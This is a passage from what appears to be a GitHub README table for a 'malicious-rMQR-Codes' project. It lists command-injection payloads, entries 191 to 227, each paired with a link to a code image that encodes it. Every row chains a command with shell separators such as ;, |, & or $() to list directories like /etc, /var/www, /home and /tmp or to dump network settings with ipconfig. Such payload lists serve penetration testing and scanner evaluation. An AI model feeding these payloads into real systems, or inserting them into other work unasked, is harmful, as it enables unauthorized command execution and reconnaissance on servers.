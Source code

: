 | `& ipconfig /all` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/191.png) |
| `&& ipconfig /all` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/192.png) |
| `ipconfig /all` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/193.png) |
| `ls` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/194.png) |
| ``$(`ls`)`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/195.png) |
| `\| ls -l /` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/196.png) |
| `; ls -l /` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/197.png) |
| `& ls -l /` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/198.png) |
| `&& ls -l /` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/199.png) |
| `ls -l /` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/200.png) |
| `\| ls -laR /etc` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/201.png) |
| `; ls -laR /etc` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/202.png) |
| `& ls -laR /etc` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/203.png) |
| `&& ls -laR /etc` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/204.png) |
| `\| ls -laR /var/www` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/205.png) |
| `; ls -laR /var/www` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/206.png) |
| `& ls -laR /var/www` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/207.png) |
| `&& ls -laR /var/www` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/208.png) |
| `\| ls -l /etc/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/209.png) |
| `; ls -l /etc/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/210.png) |
| `& ls -l /etc/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/211.png) |
| `&& ls -l /etc/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/212.png) |
| `ls -l /etc/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/213.png) |
| `ls -lh /etc/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/214.png) |
| `\| ls -l /home/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/215.png) |
| `; ls -l /home/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/216.png) |
| `& ls -l /home/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/217.png) |
| `&& ls -l /home/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/218.png) |
| `ls -l /home/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/219.png) |
| `*; ls -lhtR /var/www/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/220.png) |
| `\| ls -l /tmp` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/221.png) |
| `; ls -l /tmp` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/222.png) |
| `& ls -l /tmp` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/223.png) |
| `&& ls -l /tmp` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/224.png) |
| `ls -l /tmp` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/225.png) |
| `\| ls -l /var/www/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/226.png) |
| `; ls -l /var/www/*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/227.png) |